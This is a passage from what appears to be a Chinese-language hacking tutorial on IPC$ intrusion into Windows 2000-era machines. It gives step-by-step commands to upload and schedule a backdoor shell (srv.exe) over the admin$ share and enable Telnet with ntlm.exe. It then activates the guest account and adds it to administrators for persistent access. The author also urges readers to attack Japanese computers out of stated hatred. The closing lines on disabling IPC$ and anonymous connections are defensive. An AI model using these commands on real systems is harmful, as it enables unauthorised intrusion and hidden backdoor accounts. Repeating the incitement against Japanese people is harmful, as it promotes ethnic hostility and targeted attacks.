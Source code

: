 2\. C:\&gt;copy srv.exe \\127.0.0.1\admin$

先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。

3\. C:\&gt;net time \\127.0.0.1

查查时间，发现127.0.0.1 的当前时间是 2002/3/19 上午 11:00，命令成功完成。

4\. C:\&gt;at \\127.0.0.1 11:05 srv.exe

用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然你怎么启动啊，呵呵！）

5\. C:\&gt;net time \\127.0.0.1

再查查到时间没有？如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。

6\. C:\&gt;telnet 127.0.0.1 99

这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。

虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了

7.C:\&gt;copy ntlm.exe \\127.0.0.1\admin$

用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。

8\. C:\WINNT\system32&gt;ntlm

输入ntlm启动（这里的C:\WINNT\system32&gt;指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现&quot;DONE&quot;的时候，就说明已经启动正常。然后使用&quot;net start telnet&quot;来开启Telnet服务！

9\. Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！(然后你想做什么?想做什么就做什么吧,哈哈)

为了以防万一,我们再把guest激活加到管理组    

10\. C:\&gt;net user guest /active:yes

将对方的Guest用户激活

11\. C:\&gt;net user guest 1234

将Guest的密码改为1234,或者你要设定的密码

12\. C:\&gt;net localgroup administrators guest /add

将Guest变为Administrator^_^(如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机)

十 总结:

关于ipc入侵就说这么多了,觉得已经够详细了,如果有不准确的地方,希望能与大家讨论.

最后,希望大家不要随便入侵,我写这篇文章的目的是想解答大家的疑惑,并不是鼓励大家随便的入侵,如果你非想试一下,建议拿小日本的机子开练(什么?为什么?因为我讨厌日本,没别的)

关闭ipc共享：

1.控制面板-管理工具-计算机管理-共享文件夹-共享                                                      

把IPC$ 共享关了就行了！    

2.HKLM\System\CurrentControlSet\ Services\LanmanServer\Parameters\AutoShareServer (REG_DWORD) 0          

关闭空连接  

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA]把RestrictAnonymous = DWORD的键值改为：00000001